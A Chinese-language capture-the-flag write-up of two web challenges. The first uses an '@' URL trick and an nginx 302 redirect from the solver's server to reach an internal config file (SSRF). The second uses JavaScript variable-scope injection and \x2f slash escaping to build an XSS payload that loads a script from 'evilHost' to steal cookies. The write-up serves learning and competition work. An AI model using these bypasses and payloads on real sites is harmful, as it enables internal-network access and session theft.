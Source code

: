 # 28. Hack my net 100

上来是
`http://120.26.224.102:25045/ea57f09ea421245047b86eaba834fae1/?u=http://nohackair.net:80/usr/themes/trapecho/css/bootstrap-responsive.min.css`这个url，
测试可知前面的`http://nohackair.net:80`是固定的，于是用alictf某题的绕过方法，加@绕过，如：`http://nohackair.net:80@baidu.com`返回baidu.com      
测试发现header里面有个`Config: http://localareanet/all.conf`，也就是想办法读这个conf    
测试发现后缀必须是.css，而且服务器会跟302重定向，那么，在自己的服务器上搭个nginx：
```
        location /test.css {
                add_header Content-Type text/css;
                return 302 http://localareanet/all.conf?u=/11.css;
        }
```

然后填`http://myEvilServer/test.css`即可看到flag（注：貌似会检查content-type,所以要加个test/css）

# 30. easy xss 150

```html
<body>
<?-- param: /?errmsg=a&t=1&debug=false -->
<?-- xssme: getmycookie.php?url=yourevilurl -->
<?-- DO NOT USE SCANNER OR BURP TOOLS , OR REGARDS AS CHEATING!!! -->
<!-- LOAD YOUR JS FILE,GET MY COOKIE,COME ON-->
<script>
var errormsg = 'error in js';
var type = '1';
(function(){
	try{
		$.get('./show.php?type='+type.toString(),function(msg){
			document.write(msg);
		});
	}catch(err){
		document.write(errormsg);
	}
	var debug = 'false';
	
})();
</script>
</body>
```

其中，catch块只有在type.toString()抛异常才会执行，那么我们要设法让type为null或undefined.
利用js的变量作用域的坑，debug填`';var type;'`那么就有`var debug = '';var type;'';`     

那么errormsg填payload就好了,过滤了斜杠可以用js字符转义`\x2f`来绕过     

payload:
`http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/?errmsg=asd%3Cscript%20src=%27http:\x2f\x2fevilHost\x2fxss.js%27%3E%3C\x2fscript%3E&t=1&debug=%27;var%20type;%27`
